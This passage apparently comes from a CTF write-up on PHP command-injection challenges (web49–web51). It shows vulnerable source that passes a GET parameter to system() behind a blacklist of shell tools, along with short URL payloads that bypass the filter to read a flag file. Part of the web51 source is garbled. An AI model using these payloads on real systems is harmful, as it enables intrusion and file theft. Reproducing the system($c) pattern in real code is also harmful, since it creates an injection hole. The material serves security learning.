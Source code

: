 > 
Payload


```
?c=tac%09fla?.php%0a

```

## web50

> 
源码


```
&lt;?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." &gt;/dev/null 2&gt;&amp;1");
    }
}else{
    highlight_file(__FILE__);
} 

```

> 
Payload


```
?c=tac&lt;&gt;fla\g.php%0a

```

## web51

> 
源码


```
&lt;?php
​
sset($_GET['c'])){
$c=$_GET['c'];
if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
system($c."&gt;/dev/null 2&gt;&amp;1");
}
}else{
highlight_file(__FILE__);
}

```
